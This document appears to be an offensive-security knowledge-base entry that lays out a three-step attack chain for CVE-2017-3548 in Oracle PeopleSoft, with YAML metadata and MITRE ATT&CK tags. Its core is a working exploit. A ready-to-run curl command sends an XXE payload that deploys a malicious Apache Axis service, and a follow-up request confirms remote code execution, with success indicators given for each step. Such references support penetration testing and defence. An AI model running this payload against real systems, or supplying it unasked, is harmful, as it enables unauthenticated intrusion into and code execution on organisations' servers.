

---
tags:
  - xxe
  - rce
  - peoplesoft
  - apache-axis
  - cve-2017-3548
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Oracle PeopleSoft
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-XXE-in-PeopleSoft-for-Service-Deployment]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:23:25.051Z'
description: >-
  Multi-stage attack exploiting an XXE vulnerability in Oracle PeopleSoft to
  deploy a malicious Apache Axis service, enabling remote code execution and
  internal network access on a public-facing DoD website.
skill_level: intermediate
impact_level: high
id: f5d4901b-8938-48e4-9143-25de4cf72f86
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Exploitation in Oracle PeopleSoft for Arbitrary Apache Axis Service Deployment and RCE (CVE-2017-3548)

Multi-stage attack chain demonstrating exploitation of CVE-2017-3548 in Oracle PeopleSoft to achieve arbitrary service deployment, leading to remote code execution (RCE) and internal network pivoting on a U.S. Department of Defense website.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/PeopleSoft-XXE-Service-Deployment]]

### Target Environment

- Oracle PeopleSoft on port 80
- Public-facing web application with PeopleSoftServiceListeningConnector endpoint
- Network access to the target host

### Initial Access Requirements

- No credentials required (public-facing)
- Direct HTTP access to the target domain
- Knowledge of PeopleSoft architecture for payload crafting

## Detailed Attack Procedures

### Step 1: Identify PeopleSoft Instance
procedure: [[procedures/Exploit-XXE-in-PeopleSoft-for-Service-Deployment]]

**Objective**: Recognize the presence of an Oracle PeopleSoft instance vulnerable to XXE and confirm access to internal endpoints.

**Instructions**: Inspect the target website to identify the PeopleSoft application running on localhost port 80. Use reconnaissance to determine that the instance exposes services like /pspc/services/AdminService, which can be targeted via XXE.

**Expected Output**: Confirmation that the PeopleSoftServiceListeningConnector is accessible and internal endpoints are reachable.

**Success Indicators**:
- PeopleSoft instance detected on port 80
- Internal service endpoints like AdminService identifiable

### Step 2: Craft and Send XXE Payload
procedure: [[procedures/Exploit-XXE-in-PeopleSoft-for-Service-Deployment]]

**Objective**: Exploit the XXE vulnerability to send a malicious XML payload that deploys a new Apache Axis service using internal AdminService access.

**Instructions**: Craft an XML payload with a DOCTYPE declaration that references the internal AdminService. Execute the following command using [[commands/PeopleSoft-XXE-Service-Deployment]] to send a POST request to the vulnerable endpoint:

```bash
curl -X POST https://target-domain/PSIGW/PeopleSoftServiceListeningConnector \
  -H "Host: target-domain" \
  -H "Content-Type: application/xml" \
  -H "Content-Length: 608" \
  -d '<!DOCTYPE a PUBLIC "-//B/A/EN" "http://localhost:80/pspc/services/AdminService?method=!--><ns1:deployment xmlns="http://xml.apache.org/axis/wsdd/" xmlns:java="http://xml.apache.org/axis/wsdd/providers/java" xmlns:ns1="http://xml.apache.org/axis/wsdd/"><ns1:service name="h1testservice" provider="java:RPC"><ns1:parameter name="className" value="org.apache.pluto.portalImpl.Deploy"/><ns1:parameter name="allowedMethods" value="*"/></ns1:service></ns1:deployment>'
```

**Expected Output**: HTTP 200 response indicating successful payload processing without errors.

**Success Indicators**:
- No XML parsing errors returned
- Payload processed by the server

### Step 3: Verify Service Deployment
procedure: [[procedures/Exploit-XXE-in-PeopleSoft-for-Service-Deployment]]

**Objective**: Confirm the deployment of the malicious service and demonstrate RCE potential by accessing it.

**Instructions**: Access the newly deployed service endpoint to verify creation. Use a browser or curl to GET the service URL:

```bash
curl https://target-domain/pspc/services/h1testservice
```

This confirms the service is live and can invoke methods from org.apache.pluto.portalImpl.Deploy, enabling arbitrary code execution.

**Expected Output**: Response from the new service confirming deployment, such as Axis service details or method invocation success.

**Success Indicators**:
- Service accessible at /pspc/services/h1testservice
- Methods invocable, indicating RCE capability
- Potential for internal network pivoting

## Attack Chain Summary

### Key Achievements

1. Identified vulnerable PeopleSoft instance via reconnaissance
2. Exploited XXE to deploy arbitrary Apache Axis service without authentication
3. Achieved RCE and internal localhost access, bypassing network segmentation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
